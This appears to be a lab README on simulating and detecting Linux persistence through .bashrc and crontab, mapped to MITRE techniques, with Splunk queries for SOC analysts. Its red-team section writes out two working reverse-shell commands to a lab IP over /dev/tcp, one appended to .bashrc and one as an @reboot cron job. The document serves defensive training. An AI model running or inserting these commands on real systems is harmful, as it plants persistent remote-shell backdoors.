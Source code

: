 # Persistence Detection – MITRE T1059.003 & T1546.001

## 🎯 Objective

Simulate and detect persistence techniques involving `.bashrc` and `crontab`, which are commonly abused by attackers to maintain access after initial compromise.

---

## 🧪 Red Team Simulation

### 1. Add Reverse Shell to `.bashrc`

echo 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1' >> ~/.bashrc

### 2. Schedule Reverse Shell via Cron

(crontab -l 2>/dev/null; echo "@reboot bash -c 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1'") | crontab -

### 3. Simulate Log Events with Logger

logger "Persistence: Reverse shell payload added to .bashrc"

logger "Persistence: Crontab @reboot reverse shell configured"

---

## 📊 Blue Team Detection – Splunk Queries

🔍 Detect .bashrc or Crontab Persistence

index=* ("@reboot" OR "crontab" OR "cron" OR "reverse shell" OR ".bashrc" OR "/dev/tcp" OR "Persistence")

| table _time, host, user, message

| sort _time

🔍 Detect Logger-Simulated Persistence Events

index=* "Persistence"

| table _time, host, user, message

---

## 🛡️ MITRE ATT&CK Mapping

Technique ID	Name

T1059.003	Command and Scripting Interpreter: Bash

T1546.001	Event Triggered Execution: Reboot Persistence via Cron

---

## 📸 Screenshots (Attach in /screenshots folder)

bashrc_persistence.png – Shows reverse shell added to .bashrc

crontab_persistence.png – Confirms @reboot job exists

logger_events.png – Terminal with logger commands

splunk_query_results.png – Detection output in Splunk

---

## 📚 Summary

These persistence methods are frequently used by attackers and malware. As a SOC Analyst, it’s critical to monitor:

Changes to .bashrc, .profile, /etc/profile

Suspicious cron jobs (especially @reboot)

Reverse shell patterns like /dev/tcp or bash -i

Detection and alerting for such behaviors can stop long-term footholds and backdoors.
